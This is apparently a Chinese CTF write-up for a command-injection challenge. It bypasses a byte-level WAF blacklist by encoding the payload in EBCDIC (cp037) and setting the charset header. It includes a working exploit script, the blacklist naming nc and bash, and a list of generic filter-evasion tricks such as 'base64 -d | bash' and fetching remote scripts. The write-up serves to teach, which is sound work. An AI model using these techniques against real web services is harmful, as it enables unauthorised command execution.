




# EzPing

> 题目描述：这是一个命令注入题目...
> 解题思路：首先发现参数存在命令拼接...
## 概括
本题的考点演进路径：
```text
命令注入 → WAF 黑名单 → 编码差异 → 客户端控制字符集 → EBCDIC 绕过
```
核心：WAF 与业务代码对同一份数据使用了不同的编码/解码方式
## 信息收集
典型的命令注入类型题目，给出了网站源码和相关信息


对题目给的附件进行代码审计
```python
def waf_middleware():
    raw_data = request.get_data()
    blacklist = [
        b'flag', b'cat', b'ls', b'bash', b'sh', b'nc',
        b';', b'|', b'&', b'$', b'>', b'<', b'`', b'\n', b'\\'
    ]
    for word in blacklist:
        if word in raw_data:
            return jsonify({'error': 'No hacker!'}), 403
``` 
1. 发现常见命令分隔符都被过滤
2. 但waf是对原始字节流进行的检查
```python
class CustomRequest(Request):
    @property
    def charset(self):
        try:
            return self.mimetype_params.get('charset', 'utf-8')
        except:
            return 'utf-8'

app = Flask(__name__)

app.request_class = CustomRequest
``` 
服务端对原始字节流的解码方式是允许客户端通过 Content-Type 中的 charset 参数，控制 Flask 解码请求体时使用的字符集
## 线索梳理
WAF 检查的是原始字节流，黑名单是基于 ASCII/UTF-8 编码的字节值硬编码的，而服务端的解码方式可以由Content-Type 中的 charset 参数控制，一次可以通过编码界面方式的差异如果waf执行命令
## 绕过waf的payload构造
```python
import requests
import json
url="http://127.0.0.1:58929/api/ping"
encoding="cp037"

json_data={"target":"127.0.0.1;cat /flag"}
json_str=json.dumps(json_data)
encoded_data=json_str.encode(encoding)

headers={"Content_Type":f"application/json;charset={encoding}"}


response=requests.post(url,data=encoded_data,headers=headers)

print(response.status_code)
print(response.text)
```

## 知识点整理
1. 本题
   1. 什么是“原始字节流”：原始字节流是指 HTTP 请求体在传输过程中未经任何字符编码解码的原生二进制数据
   2. request.get_data() 的工作原理
      返回类型：bytes 类型（Python 中的字节串）
      不做解码：不关心 Content-Type 中的 charset
      完整获取：读取整个请求体原始数据
      不修改数据：保持 HTTP 传输时的原样
      ```python
        # Flask 内部简化逻辑
        def get_data(self):
            # 直接从 WSGI 环境读取原始输入流
            return self._get_data_for_cache(cache=self._cached_data)
      ```
      完整的请求流程：
      ```python
        # 1. Web 服务器接收原始 HTTP 请求
        POST /ping HTTP/1.1
        Content-Type: application/json
        Content-Length: 28

        {"target":"127.0.0.1"}

        # 2. WSGI 服务器创建环境变量字典
        environ = {
            'REQUEST_METHOD': 'POST',
            'CONTENT_TYPE': 'application/json',
            'CONTENT_LENGTH': '28',
            'wsgi.input': <file-like object>,  # 这是一个文件对象，包含原始请求体
            # ... 其他 WSGI 变量
        }

        # 3. Flask 通过 WSGI 的 input 流读取数据
      ```
   3. 黑名单检查的具体过程
      ```python
        raw_data = request.get_data()
        blacklist = [
            b'flag', b'cat', b'ls', b'bash', b'sh', b'nc',
            b';', b'|', b'&', b'$', b'>', b'<', b'`', b'\n', b'\\'
        ]
        for word in blacklist:
            if word in raw_data:  字节串包含检查
                return jsonify({'error': 'No hacker!'}), 403
      ```
      字节串查找示例
      ```python
        # 假设收到的原始数据
        raw_data = b'{"target":"127.0.0.1; cat /flag"}'

        # 检查过程
        b';' in raw_data     # True → 触发拦截
        b'cat' in raw_data   # True → 触发拦截
        b'flag' in raw_data  # True → 触发拦截

        # 字节级别的匹配
        # b'cat' 在内存中寻找连续的 0x63 0x61 0x74 序列
      ```
   4. Flask 自定义 Request 类与 Charset 控制
      ```python
        class CustomRequest(Request):
            @property
            def charset(self):
                return self.mimetype_params.get('charset', 'utf-8')      
      ``` 
      作用：允许客户端通过 Content-Type 中的 charset 参数，控制 Flask 解码请求体时使用的字符集。
      正常情况：`Content-Type: application/json; charset=utf-8`
      攻击情况：`Content-Type: application/json; charset=cp037`
   5. 原始字节 vs 解码字符串 —— 本质区别
      ```python
        # 场景1：UTF-8 编码
        raw_utf8 = b'cat'           # 0x63 0x61 0x74
        decoded = raw_utf8.decode('utf-8')  # "cat"
        # ✅ WAF 能拦截，业务代码也能执行

        # 场景2：EBCDIC (cp037) 编码
        raw_ebcdic = b'\x83\x81\xa3'  # 这是 "cat" 在 cp037 中的表示
        decoded = raw_ebcdic.decode('cp037')  # "cat"

        # WAF 检查时：
        b'cat' in raw_ebcdic  # False！因为 raw_ebcdic 是 0x83 0x81 0xa3
        # 但业务代码执行时：
        subprocess.run(f"ping -c 1 {decoded}")  # 执行了 "cat" 命令
      ``` 
   6. 正常HTTP 请求中的完整流程
      ```python
        # 1. 代码（人类可读）
        data = '{"target":"cat /flag"}'

        # 2. 编码：变成字节流（准备发送）
        bytes_to_send = data.encode('utf-8')
        # 结果：b'{"target":"cat /flag"}'

        # 3. 通过网络传输（线路上是 0 和 1）
        # 01011100 ...

        # 4. 服务器接收（收到的是字节流）
        received_bytes = b'{"target":"cat /flag"}'

        # 5. 解码：变回人类可读（业务代码使用）
        received_string = received_bytes.decode('utf-8')
        # 结果：'{"target":"cat /flag"}'      
      ```  
   7. 通过编解码方式差异绕过WAF过程
      攻击者操作步骤 
      ```python
        # 步骤1：攻击者想发送恶意字符串
        malicious_string = "cat /flag"

        # 步骤2：选择一种非 ASCII 编码（比如 cp037）
        encoded_bytes = malicious_string.encode('cp037')
        # 结果：b'\x83\x81\xa3\x40\x2f\x86\x81\x87'

        # 步骤3：发送 HTTP 请求，告诉服务器"请用 cp037 解码"
        # Content-Type: application/json; charset=cp037
        # Body: {"target":"\x83\x81\xa3\x40\x2f\x86\x81\x87"}
      ``` 
      服务器端
      ```python
        # WAF 看到的（原始字节流）
        raw = request.get_data()  # b'\x83\x81\xa3\x40\x2f\x86\x81\x87'
        if b'cat' in raw:  # 查找 b'cat' = b'\x63\x61\x74'（基于 ASCII/UTF-8 编码的字节值）
            # 找不到！因为原始字节是 \x83\x81\xa3
            pass

        # 业务代码看到的（解码后）
        decoded = raw.decode('cp037')  # "cat /flag"
        target = json.loads(decoded)['target']  # "cat /flag"
        os.system(f"ping {target}")  # 执行了 cat /flag
      ```
      关键条件：
      编码必须是 Python 支持（如 cp037、cp500、ibm039 等）
      编码必须与 ASCII 不兼容，使得常见黑名单字节不会出现
2. 扩展
   1. Python 标准编码列表
      参考：`https://docs.python.org/3/library/codecs.html#standard-encodings`
      常用不兼容 ASCII 编码：
        cp037（EBCDIC US/Canada）
        cp500（EBCDIC International）
        cp1047（Linux on IBM Z）
        cp875（Greek EBCDIC）
   2. 命令注入的其他绕过技巧
      1. 绕过空格过滤
         1. `$IFS{}`
         2. `$IFS$9`
         3. `\n`
         4. `\t`
         5. `<,>`
      2. 绕过黑名单关键词
         1. 通配符`*`
         2. 反斜杠截断`\`
         3. 内联命令执行`cat $(ls)`
         4. 变量拼接`a=fl;b=ag;cat /$a$b`
         5. 编码绕过`echo "Y2F0IC9mbGFn" | base64 -d | bash`
         6. 环境变量截取`${PATH:0:1}`代表第一个字符 /
      3. 命令分隔符与绕过技巧
         
      4. 绕过长度限制
         使用 wget 下载远程脚本执行
         使用 echo "..." | base64 -d | bash
         利用 * 执行文件名
      5. 绕过字符集过滤（本题目核心）
         使用非 ASCII 编码（如 EBCDIC、UTF-16、UTF-32、UCS-2）
         使用畸形编码（如 utf-8 中插入无效字节，某些解析器会忽略）
         利用 HTTP 协议中的 charset 参数 
      6. 利用请求方法或协议特性
         Content-Type: application/json; charset=utf-16【某些 WAF 只检查 utf-8 或原始字节】
         分块传输（Transfer-Encoding: chunked）【部分 WAF 不解析 chunked 体】
         参数污染（HTTP Parameter Pollution） 
